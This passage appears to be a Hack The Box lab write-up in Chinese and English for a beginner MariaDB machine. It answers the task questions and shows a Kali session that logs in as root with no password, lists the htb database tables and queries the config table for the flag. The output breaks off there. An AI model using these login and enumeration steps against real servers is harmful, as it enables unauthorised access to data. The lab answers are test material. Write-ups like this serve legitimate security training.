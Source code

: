 MariaDB

## task 4

What switch do we need to use in order to specify a login username for the MySQL service?

`-u`也就是user

## task 5

 Which username allows us to log into MariaDB without providing a password?

思路已经很明显了，那就直接用root尝试登陆MariaDB,发现确实不用密码即可进入数据库

```powershell
┌──(root㉿kali)-[~]
└─# mysql -u root -h 10.129.90.221
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 83
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> Ctrl-C -- exit!
Aborted
```

## task 6

What symbol can we use to specify within the query that we want to display eveything inside a table?

我们可以使用什么符号在查询中指定要显示表中的所有内容？

`*`

 ## task 7

What symbol do we need to end each query with?

每句话结束结束记得加`；`

## task 8

进入数据库发现有个叫htb的数据库，进去有两张表，发现flag就藏在config里

```powershell
Database changed
MariaDB [htb]> use htb;
Database changed
MariaDB [htb]> show tables;
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.604 sec)

MariaDB [htb]> select * from config
    -> ;
+----+-----------------------+----------------------------------+
| id | name                  | value                            |
+----+-----------------------+----------------------------------+
```